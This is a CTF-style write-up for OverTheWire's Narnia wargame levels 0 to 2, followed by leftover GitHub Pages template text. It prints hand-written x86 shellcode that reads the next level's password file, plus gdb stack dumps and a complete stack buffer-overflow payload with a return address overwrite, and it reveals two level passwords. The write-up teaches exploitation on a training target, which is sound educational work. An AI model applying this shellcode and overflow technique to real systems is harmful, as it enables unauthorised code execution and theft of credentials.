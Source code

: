 ## Narnia Solutions

Here are short solutions I have written for Narnia levels. This is a wargame in overthewire.org. The main subject of the game is exploitation. I wrote only where I felt that there were not many sufficient solutions to the level.

### Narnia0

Well, I think that there are plany well written solutions for this level. I would like to mention, however, that the shellcode should be generated inside the shell (use python or ruby or perl, etc') because for some unusual reason, pasting a prepeared shellcode inside the shell **will not work**.


### Narnia1

To solve this level, we need to know assembly, x86 in this case (typing "lscpu" will reveal us the architecture and byte order, which are **important** for out shellcode). There are planty writeup's for this level, which most of them are incorrect (but I do recommand reading them in order to understand what is wrong), however. Moreover, I would advise you to learn how to write a shellcode in linux, because copying and pasting a shellcode from shell storm won't work in this case. So after we figure out that there is a buffer overflow with the enviromental variable, we want to inject our shellcode. Remeber, no null bytes and illegal chars!
Because spawning a regular shell won't work (the shell will be privileged with narnia1 user), we want to use the our vulnerability to open narnia2 password file. Let's dive into our shell code:
```
section .text
	global _start

_start:
	xor eax,eax
	push eax          ;end of the /bin/cat string
	push 0x7461632f
	push 0x6e69622f
	mov ebx, esp      ;ebx points to the start of the string
	push eax
	push 0x3261696e
	push 0x72616e2f
	push 0x73736170
	push 0x5f61696e
	push 0x72616e2f
	push 0x6374652f
	mov ecx, esp      ;ecx points to the start of the string (/etc/narnia_pass/narnia2)
  push eax          ;array has to end with null
	mov al, 11        ;we use execve syscall, numbered 11
	mov edx, esp      ;edx points to null (we don't need char *const envp[])
	push ecx          ;push the first arg (/etc/narnia_pass/narnia2)
	push ebx          ;push the second arg (/bin/cat
	mov ecx, esp      ;ecx points to array with two args
	int 0x80
```	
	
Now, we want to compile our code and link it, thus:
```nasm -f elf shell.asm -o shell.o
ld -m elf_i386 -s shell.o -o shell
```
(-m elf_i386 is not necessary, but was in my case)

Okay, let's extract our shellcode:
`for i in $(objdump -M intel -d shell | grep "^ "|cut -f2); do echo -n '\x'$i;done;echo`
and Wallah:
```
narnia1@narnia:~$ export EGG=`python -c "print('\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x32\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80')"`
narnia1@narnia:/narnia$ ./narnia1
Trying to execute EGG!
nairiepecu
```

###Narnia2

Here, we are dealing with a classic buffer overflow once again. We can see that our buffer is limited, hence we can give a bigger input that exceeds our buffer size  (no input validation is done) and thus overwrite our return address from the main() function. This will allow us to jump into a place we control and execute our shellcode. I truly recommand reading phracks 'smashing the stack' article to gain better understanding of this attack: http://phrack.org/issues/49/14.html

Let's proceed to our soltuion:
First, we fire up gdb and give it an input which is bigger than expected and see what happens with our stack:
``
disas main
(we break on the address of ret, because we want to overwrite the return address)
b *0x080484b2(ret's_address, which is obviously different for everyone)
r $(python -c "print('a'*130)")
``
now let's check if our $ebp was or $esp were overwritten:
`` info reg ``
No, not yet. After trying for several times, input of 144*'a' will overwrite esp and eip (eip contains the return address).
Now, we want to overwrite the last 4 bytes with 'our' address (our controlled address). We will add our shellcode from the previous level and will change it slighlty (will read narnia3 file instead of narnia2). It's size is 59 bytes. Now, we want our controlled address be the address in the stack in which the injected shellcode starts. Therefore we will inject our shellcode and see where it starts, letting us to overwrite the eip address to point to the start of it:
```
r $(python -c "print('a'*81+'\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x33\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80'+'aaaa')")
x/200wx $esp
0xffffd780:	0x616e2f61	0x61696e72	0x61610032	0x61616161
0xffffd790:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7a0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7b0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7c0:	0x61616161	0x61616161	0x61616161	0x61616161
0xffffd7d0:	0x61616161	0x61616161	0x31616161	0x2f6850c0
0xffffd7e0:	0x68746163	0x6e69622f	0x6850e389	0x3361696e
0xffffd7f0:	0x616e2f68	0x61706872	0x6e687373	0x685f6169
0xffffd800:	0x72616e2f	0x74652f68	0x50e18963	0xe2890bb0
0xffffd810:	0xe1895351	0x616180cd	0x58006161	0x535f4744
```
We can see that our shellcode starts at: 0xffffd7d0+B(11 in decimal)=0xffffd7db. Additionaly, we can see that eip is overwritten by our 4 extra bytes:
`` (gdb) info frame
Stack level 0, frame at 0xffffd5b4:
 eip = 0x61616161; saved eip = 0x0
 called by frame at 0xffffd5b8
 Arglist at 0xffffd5ac, args: 
 Locals at 0xffffd5ac, Previous frame's sp is 0xffffd5b4
 Saved registers:
  eip at 0xffffd5b0
``
Okay, now we know our injection code should be the following:
``'a'*81+'\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x33\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80'+'\xdb\xd7\xff\xff'``
Let's get the password:
./narnia2 `python -c "print('a'*81+'\x31\xc0\x50\x68\x2f\x63\x61\x74\x68\x2f\x62\x69\x6e\x89\xe3\x50\x68\x6e\x69\x61\x33\x68\x2f\x6e\x61\x72\x68\x70\x61\x73\x73\x68\x6e\x69\x61\x5f\x68\x2f\x6e\x61\x72\x68\x2f\x65\x74\x63\x89\xe1\x50\xb0\x0b\x89\xe2\x51\x53\x89\xe1\xcd\x80'+'\xdb\xd7\xff\xff')"`
and...........wallah:
vaequeezee





- Bulleted
- List

1. Numbered
2. List

**Bold** and _Italic_ and `Code` text

[Link](url) and ![Image](src)
```

For more details see [GitHub Flavored Markdown](https://guides.github.com/features/mastering-markdown/).

### Jekyll Themes

Your Pages site will use the layout and styles from the Jekyll theme you have selected in your [repository settings](https://github.com/int3rsys/Narnia-solutions/settings). The name of this theme is saved in the Jekyll `_config.yml` configuration file.

### Support or Contact

Having trouble with Pages? Check out our [documentation](https://help.github.com/categories/github-pages-basics/) or [contact support](https://github.com/contact) and we’ll help you sort it out.
